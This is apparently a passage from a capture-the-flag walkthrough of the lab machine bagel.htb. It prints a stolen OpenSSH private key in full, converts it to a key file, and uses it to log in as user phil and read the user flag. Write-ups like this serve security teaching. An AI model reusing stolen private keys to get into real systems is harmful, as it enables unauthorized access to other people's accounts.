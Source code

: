     oxdf@hacky$ export KEY='"-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAYEAuhIcD7KiWMN8eMlmhdKLDclnn0bXShuMjBYpL5qdhw8m1Re3Ud+2\ns8SIkkk0KmIYED3c7aSC8C74FmvSDxTtN
    Od3T/iePRZOBf5CW3gZapHh+mNOrSZk13F28N\ndZiev5vBubKayIfcG8QpkIPbfqwXhKR+qCsfqS//bAMtyHkNn3n9cg7ZrhufiYCkg9jBjO\nZL4+rw4UyWsONsTdvil6tlc41PXyETJat6dTHSHTKz+S7lL4wR/I+saVvj8KgoYtDCE1sV\nVftUZhkFImSL2ApxIv7tYmeJbombYff1SqjHAkdX9VKA0gM0zS7but3/klYq6g3l+NEZOC\nM0/I+30oaBoXCjvup
    MswiY/oV9UF7HNruDdo06hEu0ymAoGninXaph+ozjdY17PxNtqFfT\neYBgBoiRW7hnY3cZpv3dLqzQiEqHlsnx2ha/A8UhvLqYA6PfruLEMxJVoDpmvvn9yFWxU1\nYvkqYaIdirOtX/h25gvfTNvlzxuwNczjS7gGP4XDAAAFgA50jZ4OdI2eAAAAB3NzaC1yc2\nEAAAGBALoSHA+yoljDfHjJZoXSiw3JZ59G10objIwWKS+anYcPJtUXt1HftrPEiJJJNCpi\nG
    BA93O2kgvAu+BZr0g8U7TTnd0/4nj0WTgX+Qlt4GWqR4fpjTq0mZNdxdvDXWYnr+bwbmy\nmsiH3BvEKZCD236sF4SkfqgrH6kv/2wDLch5DZ95/XIO2a4bn4mApIPYwYzmS+Pq8OFMlr\nDjbE3b4perZXONT18hEyWrenUx0h0ys/ku5S+MEfyPrGlb4/CoKGLQwhNbFVX7VGYZBSJk\ni9gKcSL+7WJniW6Jm2H39UqoxwJHV/VSgNIDNM0u27rd/5JWKuoN5fjRG
    TgjNPyPt9KGga\nFwo77qTLMImP6FfVBexza7g3aNOoRLtMpgKBp4p12qYfqM43WNez8TbahX03mAYAaIkVu4\nZ2N3Gab93S6s0IhKh5bJ8doWvwPFIby6mAOj367ixDMSVaA6Zr75/chVsVNWL5KmGiHYqz\nrV/4duYL30zb5c8bsDXM40u4Bj+FwwAAAAMBAAEAAAGABzEAtDbmTvinykHgKgKfg6OuUx\nU+DL5C1WuA/QAWuz44maOmOmCjdZA1M+vmzbzU+NR
    MZtYJhlsNzAQLN2dKuIw56+xnnBrx\nzFMSTw5IBcPoEFWxzvaqs4OFD/QGM0CBDKY1WYLpXGyfXv/ZkXmpLLbsHAgpD2ZV6ovwy9\n1L971xdGaLx3e3VBtb5q3VXyFs4UF4N71kXmuoBzG6OImluf+vI/tgCXv38uXhcK66odgQ\nPn6CTk0VsD5oLVUYjfZ0ipmfIb1rCXL410V7H1DNeUJeg4hFjzxQnRUiWb2Wmwjx5efeOR\nO1eDvHML3/X4WivARfd7XMZZy
    fB3JNJbynVRZPr/DEJ/owKRDSjbzem81TiO4Zh06OiiqS\n+itCwDdFq4RvAF+YlK9Mmit3/QbMVTsL7GodRAvRzsf1dFB+Ot+tNMU73Uy1hzIi06J57P\nWRATokDV/Ta7gYeuGJfjdb5cu61oTKbXdUV9WtyBhk1IjJ9l0Bit/mQyTRmJ5KH+CtAAAA\nwFpnmvzlvR+gubfmAhybWapfAn5+3yTDjcLSMdYmTcjoBOgC4lsgGYGd7GsuIMgowwrGDJ\nvE1yAS1vC
    est9D51grY4uLtjJ65KQ249fwbsOMJKZ8xppWE3jPxBWmHHUok8VXx2jL0B6n\nxQWmaLh5egc0gyZQhOmhO/5g/WwzTpLcfD093V6eMevWDCirXrsQqyIenEA1WN1Dcn+V7r\nDyLjljQtfPG6wXinfmb18qP3e9NT9MR8SKgl/sRiEf8f19CAAAAMEA/8ZJy69MY0fvLDHT\nWhI0LFnIVoBab3r3Ys5o4RzacsHPvVeUuwJwqCT/IpIp7pVxWwS5mXiFFVtiwjeHq
    psNZK\nEU1QTQZ5ydok7yi57xYLxsprUcrH1a4/x4KjD1Y9ijCM24DknenyjrB0l2DsKbBBUT42Rb\nzHYDsq2CatGezy1fx4EGFoBQ5nEl7LNcdGBhqnssQsmtB/Bsx94LCZQcsIBkIHXB8fraNm\niOExHKnkuSVqEBwWi5A2UPft+avpJfAAAAwQC6PBf90h7mG/zECXFPQVIPj1uKrwRb6V9g\nGDCXgqXxMqTaZd348xEnKLkUnOrFbk3RzDBcw49GXaQlPPSM4
    z05AMJzixi0xO25XO/Zp2\niH8ESvo55GCvDQXTH6if7dSVHtmf5MSbM5YqlXw2BlL/yqT+DmBsuADQYU19aO9LWUIhJj\neHolE3PVPNAeZe4zIfjaN9Gcu4NWgA6YS5jpVUE2UyyWIKPrBJcmNDCGzY7EqthzQzWr4K\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----"'
    oxdf@hacky$ echo $KEY | jq -r . | tee ~/keys/bagel-phil                                                 
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAuhIcD7KiWMN8eMlmhdKLDclnn0bXShuMjBYpL5qdhw8m1Re3Ud+2
    s8SIkkk0KmIYED3c7aSC8C74FmvSDxTtNOd3T/iePRZOBf5CW3gZapHh+mNOrSZk13F28N
    ...[snip]...
    eHolE3PVPNAeZe4zIfjaN9Gcu4NWgA6YS5jpVUE2UyyWIKPrBJcmNDCGzY7EqthzQzWr4K
    nrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=
    -----END OPENSSH PRIVATE KEY-----
    

It works:

    
    
    oxdf@hacky$ ssh -i ~/keys/bagel-phil phil@bagel.htb
    Last login: Wed May 31 16:26:35 2023 from 10.10.14.6
    [phil@bagel ~]$
    

And I can get `user.txt`:

    
    
    [phil@bagel ~]$ cat user.txt
    3e84c3ef************************
    